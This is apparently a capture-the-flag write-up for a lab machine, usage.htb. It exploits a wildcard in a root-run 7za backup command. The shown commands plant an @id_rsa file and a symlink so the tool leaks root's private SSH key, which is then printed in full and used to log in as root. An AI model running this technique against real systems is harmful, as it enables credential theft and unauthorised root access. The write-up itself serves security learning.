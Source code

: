 ![image](Scr_16.png)

There is a interesting string: 

```sh
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

This command is susceptible to a trick called "wildcard spare". The command invokes 7z with a wildcard, "\*" , and we can exploit it using [this guide on HachTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks).

Citing directly from HackTricks: "In 7z even using -- before * (note that -- means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file"

In my case, I want to read the SSH private key of root. Following the HackTricks steps:
```sh
cd /var/www/html
touch @id_rsa
ln -s /root/.ssh/id_rsa id_rsa
sudo /usr/bin/usage_management
```

![image](Scr_18.png)


We get the private key. Now we can use it to log in as root and get the root flag:


```sh
echo '-----BEGIN OPENSSH PRIVATE KEY-----                                                  
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----' > id_rsa

chmod 600 id_rsa
ssh -i id_rsa root@usage.htb
```
